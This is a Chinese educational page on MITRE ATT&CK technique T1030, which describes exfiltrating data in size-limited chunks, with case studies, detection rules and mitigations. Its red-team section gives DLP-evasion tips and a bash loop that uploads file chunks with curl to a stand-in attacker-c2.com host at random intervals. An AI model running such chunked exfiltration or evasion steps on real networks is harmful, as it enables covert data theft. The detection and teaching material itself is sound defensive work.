

# 数据大小限制 (T1030)

## 一句话通俗理解

就像小偷知道安检机会对大件行李报警，于是把赃物切成小块分批带出——每次只带一小块，保安就不会注意。

## 难度等级

- ⭐ 初级（新手可学）

## 技术描述

数据大小限制（T1030）是MITRE ATT&CK框架中渗漏战术的一种技术。

**通俗解释：**
很多网络出口都有文件大小限制或流量检测机制——比如超过100MB的文件传输会被告警。攻击者为了绕过这些限制，把大文件切成很多小块，每个小块单独传输。这样单次传输的数据量看起来很正常，不会触发告警。

**技术原理：**

1. 攻击者首先了解目标网络出口的数据传输限制（文件大小限制、带宽配额、流量阈值）
2. 使用工具将大文件分割成多个不超过限制的小块
3. 在多个时间窗口内分别传输每个数据块
4. 攻击者在外部服务器上重组所有数据块恢复原始文件

**用途与影响：**
这种技术的核心思想是"低且慢"（low and slow），通过减小单次传输的"信噪比"来融入正常业务流量。它本身不是一种独立的渗漏技术，而是与其他渗漏技术配合使用的辅助方法。

## 子技术列表

**该技术没有子技术。**

## 攻击流程

### 典型攻击流程

```
收集大文件 --> 分割为小块 --> 压缩每个小块 --> 分批传输 --> 外部重组
```



**步骤详解：**

1. **收集目标大文件**
   - 通俗描述：找到要偷的大文件
   - 技术细节：搜索包含大量敏感数据的文件
   - 常用工具：find命令、PowerShell Get-ChildItem

2. **评估网络传输限制**
   - 通俗描述：先摸清楚网络出口的检查规则
   - 技术细节：分析之前传输的文件大小上限
   - 常用工具：测试文件传输

3. **将文件分割为小数据块**
   - 通俗描述：用分卷压缩把大文件切成小块
   - 技术细节：使用split命令或WinRAR分卷功能
   - 常用工具：split、WinRAR、7-Zip

4. **压缩并加密每个小块**
   - 通俗描述：把每个小块分别压缩打包
   - 技术细节：对每个分卷应用压缩和加密
   - 常用工具：WinRAR、7-Zip、gpg

5. **分批传输每个数据块**
   - 通俗描述：在不同时间分别发送每个小块
   - 技术细节：在多个时间窗口内使用HTTP POST逐一传输
   - 常用工具：curl、PowerShell、BITSAdmin

6. **在传输间隔中等待**
   - 通俗描述：传完一个等一会儿再传下一个
   - 技术细节：使用sleep命令控制传输间隔
   - 常用工具：sleep、Start-Sleep

7. **外部服务器重组数据**
   - 通俗描述：攻击者把所有小块拼回完整的文件
   - 技术细节：使用join命令或WinRAR合并分卷
   - 常用工具：join、WinRAR、cat

## 真实案例

### 案例1：APT10使用分卷压缩规避检测（2018）

- **时间**: 2018年
- **目标**: 全球航空航天、电信行业
- **攻击组织**: APT10（Stone Panda）
- **手法**: APT10在渗出大型CAD文件和知识产权数据时，使用WinRAR将数据分割为多个50MB的分卷压缩包，每个压缩包单独传输，以避开网络出口处的文件大小检测规则。分卷文件被分别命名为.rar.001、.rar.002等扩展名，以混淆文件类型检测。每个分卷通过独立的HTTPS连接传输，间隔数小时。
- **影响**: 多个航空航天企业核心知识产权被盗
- **参考链接**: [MITRE ATT&CK - APT10](https://attack.mitre.org/groups/G0045/)

### 案例2：ALPHV/BlackCat附属团伙分卷压缩渗漏（2023-2024）

- **时间**: 2023年-2024年
- **目标**: 全球多个行业（医疗、金融、制造）
- **攻击组织**: ALPHV（BlackCat）
- **手法**: ALPHV/BlackCat附属团伙在收集大量敏感数据后，使用7-Zip将数TB的数据分割为多个50-100MB的分卷压缩包（.7z.001、.7z.002等），随后使用Rclone工具将这些分卷分批上传到Wasabi云存储和Mega.nz。分卷文件通过独立的HTTPS连接逐一传输，每次传输间隔随机化（30-90分钟），以避开网络出口的文件大小检测规则和流量阈值告警。CISA与FBI在2024年2月的联合报告中证实了这种数据分片渗漏手法。Group-IB的研究进一步指出，部分附属成员使用ExMatter工具配合7-Zip分卷，先筛选目标文件类型再进行分段打包。
- **影响**: 全球近70个组织数据被窃取，包括Change Healthcare等大型机构
- **参考链接**: [CISA AA23-353A - #StopRansomware: ALPHV Blackcat](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-353a)

### 案例3：APT41的分段打包渗出（2019-2021）

- **时间**: 2019-2021年
- **目标**: 全球多个行业
- **攻击组织**: APT41
- **手法**: APT41在渗出前将收集到的数据进行分段压缩，每个压缩包控制在特定大小内，再通过C2通道逐一传输。这种方法使单次网络会话的数据量保持在正常范围，降低了流量分析系统的告警概率。分段数据通过HTTPS加密传输，在C2服务器上重组。
- **影响**: 多个全球企业数据被盗
- **参考链接**: [MITRE ATT&CK - APT41](https://attack.mitre.org/groups/G0096/)

### 案例4：2024年制造企业通过WinRAR分卷压缩渗漏（2024）

- **时间**: 2024年07月
- **目标**: 制造业企业
- **攻击组织**: 未知
- **手法**: 攻击者在攻陷Fortinet防火墙后，在多个文件服务器上使用WinRAR压缩数据。攻击者将大量业务数据压缩打包，然后通过OpenSSH SCP协议尝试传输到外部C2 IP地址。虽然WinRAR和SCP的配合使用是标准的数据渗漏手法，但攻击者多次尝试不同IP地址和端口组合来规避基于大小的检测。
- **影响**: 多个文件服务器的业务数据被盗
- **参考链接**: [ReliaQuest - Data Exfiltration Attack Analysis](https://reliaquest.com/blog/data-exfiltration-attack-analysis-manufacturing-sector-breach/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **动态调整分片大小**
   根据目标网络的特点动态调整每个分片的大小。先发送测试文件确定网络出口的文件大小限制，再据此设置分片参数。例如，先发送一个10MB的测试文件，如果成功则逐步增大到50MB、100MB，找到告警阈值后反向设置分片大小。

2. **随机化传输间隔**
   不要以固定间隔传输分片，使用随机间隔（如30-90分钟之间随机选择）更不容易触发异常检测。PowerShell实现：`Start-Sleep -Seconds (Get-Random -Minimum 1800 -Maximum 5400)`

3. **使用合法分片功能**
   利用云存储API的分片上传功能（如AWS S3 Multipart Upload、Azure Blob Append Block），这些功能设计用于合法的大文件传输，不容易引起怀疑。

4. **协议特定的分片策略**
   不同协议有不同的天然大小限制，利用这些特性使传输更隐蔽：DNS查询标签限制63字符、HTTP Cookie限制4096字节、TXT记录限制512字节。将数据编码为符合这些限制的片段，使流量看起来完全正常。

5. **嵌套加密分片**
   先对原始数据整体加密（使用AES-256），再分割为分片。这样即使某个分片被拦截，攻击者也无法确定分片内容是中间部分还是结尾，增加了取证难度。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| split | Linux文件分割工具 | Linux | 系统内置 |
| WinRAR | 分卷压缩工具 | Windows | https://www.win-rar.com/ |
| 7-Zip | 分卷压缩工具 | Windows/Linux | https://www.7-zip.org/ |
| BITSAdmin | Windows后台传输 | Windows | 系统内置 |
| curl | 命令行HTTP工具 | 全平台 | https://curl.se/ |
| dd | Linux数据复制/分割工具 | Linux | 系统内置 |
| tar | Linux归档工具（可分片写入） | Linux | 系统内置 |

### 命令行示例

```bash
# Linux split - 按大小分割文件
split -b 10M -d large_data.tar.gz chunk_
# 输出: chunk_00, chunk_01, chunk_02, ...

# Linux split - 按行数分割
split -l 1000 sensitive_database.sql part_

# 使用dd进行精确字节级分割
dd if=target.data bs=1M count=10 skip=0 of=part_00
dd if=target.data bs=1M count=10 skip=10 of=part_01

# 7-Zip 分卷压缩 (Windows/Linux)
7z a -v50m -pPassword123 -mhe=on encrypted_archive.7z target_data/

# WinRAR 分卷压缩 (Windows)
rar a -v50000k -ep1 -pPassword123 rared_data.rar target_data/

# curl配合分片上传（模拟Multipart Upload）
for i in chunk_*; do
  sleep $(( RANDOM % 3600 ))
  curl -X POST -F "file=@$i" https://attacker-c2.com/upload
done
```

### 注意事项

- 分卷压缩的文件有特定的文件签名（.001、.002等），容易被DLP检测——建议修改文件扩展名伪装为系统文件
- 传输间隔太短可能触发频率检测，太长则影响渗漏效率，建议随机控制在30分钟到2小时之间
- 需要在重组过程中保持分片顺序的正确性，建议在分片文件名中嵌入序号（如data_001.bin）
- 某些DLP系统会检测压缩文件的Magic Number（文件头），考虑使用非标准的加密容器格式

## 蓝队视角

### 检测要点

1. **分卷压缩文件特征检测**
   - 日志来源：文件监控系统、终端DLP
   - 关注字段：文件扩展名、文件命名模式
   - 异常特征：大量文件名以.001、.002、.7z.001、.part1.rar等结尾的文件出现
   - 检测命令：
   ```powershell
   # 扫描系统的分卷压缩文件
   Get-ChildItem -Path "C:\Users\*" -Include "*.001","*.002","*.003","*.part1*","*.z01" -Recurse -Force | Select FullName,Length,CreationTime
   
   # 检测近期创建的分卷文件
   Get-ChildItem -Path "C:\" -Include "*.001","*.002" -Recurse -Force | Where-Object {$_.CreationTime -gt (Get-Date).AddDays(-1)}
   ```

2. **高频小文件传输检测**
   - 日志来源：网络流量日志、Web代理日志
   - 关注字段：同一源IP向同一目标IP发送多个大小相似的文件
   - 异常特征：短时间内大量大小相近的文件传输事件，文件大小高度一致（如全是49.9MB-50.1MB之间）
   - 检测思路：统计1小时内同一源IP向同一目标发送的文件数量，如果超过N个且大小在固定范围内则告警

3. **压缩工具使用检测**
   - 日志来源：Sysmon Event ID 1（进程创建）、Event ID 4688
   - 关注字段：WinRAR、7-Zip、WinZip等压缩工具在执行分卷操作时的命令行参数
   - 异常特征：`rar a -v`（创建分卷）、`7z a -v` 等参数的出现
   - 检测命令：
   ```powershell
   # 搜索命令历史中的分卷操作
   Get-WinEvent -FilterHashtable @{LogName='Security';ID=4688} | Where-Object {$_.Message -match "-v\d+[mMkK]"} | Format-List
   ```

4. **云存储分片上传API使用**
   - 日志来源：云平台审计日志
   - 关注字段：MultipartUpload、AppendBlock、PutObject等API调用
   - 异常特征：非预期的分片上传操作，特别是从非管理IP或非工作时间发起
   - AWS CloudTrail查询：
   ```bash
   aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateMultipartUpload --query 'Events[?contains(CloudTrailEvent, `"userIdentity"`) && contains(CloudTrailEvent, `"userName"`)]'
   ```

5. **网络流量熵值分析**
   - 日志来源：全流量捕获设备
   - 分析维度：多个大小相近的数据包/会话的目的地一致性
   - 异常特征：向同一外部IP发送的多个数据包大小接近、间隔时间稳定

### 监控建议

- 配置DLP系统检测分卷压缩文件的特征签名（RAR的52 61 72 21 1A 07 00、7z的37 7A BC AF 27 1C等Magic Number）
- 建立网络流量基线，识别偏离基线的分段数据传输模式，重点关注文件大小高度一致（标准差小）的批量传输
- 监控压缩工具在非管理节点上的使用行为，特别是分卷参数（-v）的调用
- 在关键数据服务器上部署文件完整性监控，检测大量文件被批量读取的行为

## 检测建议

### 网络层检测

**检测方法：** 监控短时间内大量大小相近的文件传输事件。

**具体规则/命令示例：**

```
# 使用Zeek监控会话中的数据量模式
# 检测同一源IP向同一目标IP的多个小文件传输
```

**示例（Suricata规则）：**
```
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"T1030 - 批量小文件上传（可能的分卷渗漏）"; flow:to_server; http.method; content:"POST"; http.request_body; length:<50000000; classtype:trojan-activity; sid:1001030; rev:1;)
```

### 主机层检测

**检测方法：** 监控分卷压缩工具的创建和使用。

**Windows事件ID：**
- 事件ID 4688：进程创建，监控WinRAR、7-Zip的创建
- 事件ID 4663：文件访问，监控大量连续的文件读取

**Linux日志：**
- 日志文件：/var/log/syslog
- 关键字段：split、cat命令执行记录

**具体命令示例：**
```bash
# 检测系统上是否存在分卷文件
find / -name "*.001" -o -name "*.002" -o -name "*.zip.001" 2>/dev/null

# 查看压缩工具的最近使用记录
grep -r "rar\|zip\|7z" /home/*/.bash_history
```

### 应用层检测

**检测方法：** 应用层检测分卷文件命名模式。

**Sigma规则示例：**
```yaml
title: 检测分卷压缩文件的创建
status: experimental
description: 检测系统上创建的分卷压缩文件
logsource:
    category: file_event
    product: windows
detection:
    selection:
        TargetFilename|contains:
            - '.001'
            - '.002'
            - '.003'
            - '.part1'
            - '.part2'
            - '.z01'
            - '.zip.001'
    condition: selection
level: medium
tags:
    - attack.t1030
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 出口流量深度检测

**具体实施步骤：**
1. 对出口流量执行深度包检测（DPI）
2. 识别分卷压缩的文件签名（文件头）
3. 在边界实施文件大小审计，对大文件分片传输触发告警

**配置示例：**
```
# DLP规则：检测分卷压缩文件
if file.magic == "RAR archive" AND file.name matches "\.\d{3}$":
    alert("分卷压缩文件检测")
    block()
```

### 优先级2：重要措施

**措施名称：** 限制压缩工具使用

**具体实施步骤：**
1. 限制非授权系统上压缩和归档工具的使用
2. 通过AppLocker限制WinRAR、7-Zip等工具的执行
3. 监控压缩工具在非管理节点上的使用

### 优先级3：建议措施

**措施名称：** 云存储API监控

**具体实施步骤：**
1. 对云存储API的multipart upload操作进行监控
2. 设置合理的使用配额
3. 对大文件传输设置额外的审批流程

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1037 | 过滤网络流量 | 适用 | 深度包检测识别分卷文件特征和异常传输模式 |
| M1045 | 软件限制策略 | 适用 | 通过AppLocker限制WinRAR、7-Zip、split等工具的白名单执行 |
| M1021 | 限制基于Web的内容 | 部分适用 | 应用层DLP规则检测分卷压缩文件的上传 |
| M1031 | 网络入侵检测 | 适用 | 部署IDS检测分片传输模式 |
| M1040 | 端点行为防护 | 适用 | 检测压缩工具批量读取文件的行为 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| 本地虚拟机 | 虚拟靶场 | 初级 | VMware/VirtualBox |

**所需工具：**
- Linux系统或Windows系统
- WinRAR或7-Zip
- split命令（Linux）
- Python 3

### 实验1：使用split分割并重组文件（初级）

**实验目标：** 学习使用split命令将大文件分割成小块并重组。

**实验步骤：**
1. 在Linux系统中创建一个100MB的测试文件
2. 使用split命令将文件分割为每个10MB的小块
3. 查看分割后的文件名和大小
4. 使用cat命令将所有小块合并回原始文件
5. 使用md5sum验证原始文件与重组文件的完整性

**预期结果：** 文件被成功分割和重组，MD5哈希值一致。

### 实验2：使用WinRAR分卷压缩（初级）

**实验目标：** 使用WinRAR创建分卷压缩文件。

**实验步骤：**
1. 收集多个测试文件放入一个文件夹
2. 使用WinRAR创建分卷压缩包，设置每卷5MB
3. 观察生成的文件（.part1.rar、.part2.rar等）
4. 将分卷文件移动到另一个目录
5. 使用WinRAR解压分卷文件验证完整性

**预期结果：** 成功创建分卷压缩包并可完整解压。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 分卷压缩 | Split Archive | 把一个大压缩包分成多个小文件，就像把一套百科全书分成几本薄书 |
| DPI | Deep Packet Inspection | 深度包检测，检查网络数据包中除了头部之外的完整内容 |
| 分片上传 | Multipart Upload | 把大文件切成多块分别上传到云存储，就像分批运输大件货物 |
| 低且慢 | Low and Slow | 一种攻击策略，用很小的数据量和很慢的速度传输，避免引起注意 |
| 文件签名 | File Magic Number | 文件开头的几个字节，用于标识文件类型，如ZIP文件开头是PK，RAR文件开头是52 61 72 21 |
| 重组 | Reassembly | 将所有数据分片按照原始顺序重新拼回完整文件的过程，像拼图一样 |
| 阈值 | Threshold | 安全系统设定的告警触发界限，如"单次上传超过100MB告警"。分片渗漏就是精确保持在阈值以下 |
| 熵值 | Entropy | 数据随机性的度量指标。加密/压缩后的数据熵值很高，与明文有明显区别，可作为检测依据 |
| 数据分片 | Data Sharding | 将数据集水平切分为多个独立片段，在云存储和数据库领域是正常操作，攻击者正好利用这一点伪装 |
| 延迟传输 | Latent Transfer | 在每次传输之间加入长时间等待（数小时甚至数天），使分片传输的时间跨度远超正常业务范围 |
| MTU | Maximum Transmission Unit | 最大传输单元，网络链路层能承载的最大数据包大小（通常为1500字节），攻击者可利用此限制精确分割数据包 |
| 频谱分析 | Spectral Analysis | 对网络流量进行频域分析，识别周期性传输模式。规律的分片传输会在频域上呈现明显特征峰 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1030](https://attack.mitre.org/techniques/T1030/)

### 安全报告

- [MITRE ATT&CK - APT10 Group](https://attack.mitre.org/groups/G0045/) - APT10分卷压缩渗漏案例
- [MITRE ATT&CK - DarkHydrus Group](https://attack.mitre.org/groups/G0079/) - DarkHydrus分片上传案例
- [ReliaQuest - Data Exfiltration Attack Analysis](https://reliaquest.com/blog/data-exfiltration-attack-analysis-manufacturing-sector-breach/) - 2024年制造业数据渗漏事件

### 工具与资源

- [WinRAR分卷压缩教程](https://www.win-rar.com/help.html) - WinRAR官方帮助
- [Linux split命令手册](https://man7.org/linux/man-pages/man1/split.1.html) - split命令用法
